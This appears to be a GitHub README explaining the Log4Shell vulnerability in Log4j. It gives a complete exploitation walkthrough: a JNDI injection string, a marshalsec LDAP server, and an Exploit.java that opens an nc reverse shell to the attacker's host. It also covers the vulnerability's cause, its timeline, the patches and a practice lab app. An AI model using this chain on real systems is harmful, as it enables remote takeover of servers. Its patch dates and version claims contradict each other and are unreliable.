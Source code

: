# CVE-2021-44228 - Log4j Remote Code Execution

CVE-2021-44228, known also as **Log4Shell**, is a severe vulnerability that exploits the popular **java** package **Log4j** that is used to log information when running an application. Applications that are using this package are:

- Minecraft and Minecraft Servers
- Steam
- Ghidra
- Baidu
- Apple iCloud

Here is the [attack surface](https://github.com/YfryTchsGD/Log4jAttackSurface) list of the exploit.

## How to exploit?

First, we need to find an attack entry point, this could be header information, query parameters or even POST data. After that, we can check if we get any response by:
1. Creating a listener (`nc -lvnp 9999` for example)
2. Sending this string through any of the potential entry points: `${jndi:ldap://<IP_ADDR>:9999/}`.
3. Checking if we get a connection.

If we get a connection, that means that the application is vulnerable and potentially we could get RCE.

To get the RCE, we have to have an LDAP server, a HTTP server and a listener. For the LDAP server, we can use [marshalsec](https://github.com/mbechler/marshalsec). We can set it up by:
- Building it using maven.
- Using the following command: `java -cp target/marshalsec-[VERSION]-SHAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "<HTTP_ATTACK_SERVER_ADDRESS>/#<class_file>"`

The next thing we need to do is to create a java exploit file that we can call `Exploit.java`, we can use this snippet:
```java
public class Exploit {
    static {
        try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <NC_IP> <NC_PORT>");
        } catch(Exception e) {}
    }
}
```

**REMEMBER** that in java, the filename **must** have the same name as the class. Then we just need to build it using `javac <class>.java -source 8 -target 8`.

The next step is to create a http server, we can do that using `python3 -m http.server` (run in same directory as the exploit file).

The last step is to create a socket listener, we do that via `nc -lvnp <NC_PORT>`.

Send the following request to the vulnerable entry point `${jndi:ldap://<ADDRESS>:1389/<class>}` and we should get a **reverse shell**.


## So, what is all of this? (FIXME)

The main culprit of this severe vulnerability are what are called **Lookups** in Log4j2. Here is the [documentation.](https://logging.apache.org/log4j/2.x/manual/lookups.html)

## Timeline and people involved

### Discovery
The first discovery of this vulnerability was by Chen Zhaojun, a security engineer in the Alibaba Cloud Security Team on 24th November 2021.

### Disclosure
The disclosure was available to the public on 9th of December 2021, by a twitter user [p0rz9](https://web.archive.org/web/20211209230040/https://twitter.com/P0rZ9/status/1468949890571337731).

### Patch Date
The first patch to be done by Apache is on 6th of December 2021.

### First version vulnerable
The first version of the vulnerable package is `2.1` - created 19th October 2014.

## Patches
The first patch for CVE-44228 was released for version `2.16`.

### LOG4J2-3208 - Disable JNDI by default
Patch in version 2.16
- [Github commit with changes](https://github.com/apache/logging-log4j2/commit/c362aff473e9812798ff8f25f30a2619996605d5)
- [Jira issue](https://issues.apache.org/jira/browse/LOG4J2-3208)

## LOG4J2-3211 - Remove support for Lookups in messages
Patch in version 2.16
- [Github commit with changes](https://github.com/apache/logging-log4j2/pull/623/commits/9336696fe6b2770c504bbb9a6d809dddc6ab289c)
- [Jira issue](https://issues.apache.org/jira/browse/LOG4J2-3211)

## Vulnerable applications
I have created a simple java application which uses a vulnerable version of log4j2. I encourage you to try it out and even debug the application to see Log4Shell in action!

Here is a [github](https://github.com/Artideusz/Log4Shell_App) link and a [docker hub](https://hub.docker.com/repository/docker/artideusz/vulnerables_log4shell_java_app) link.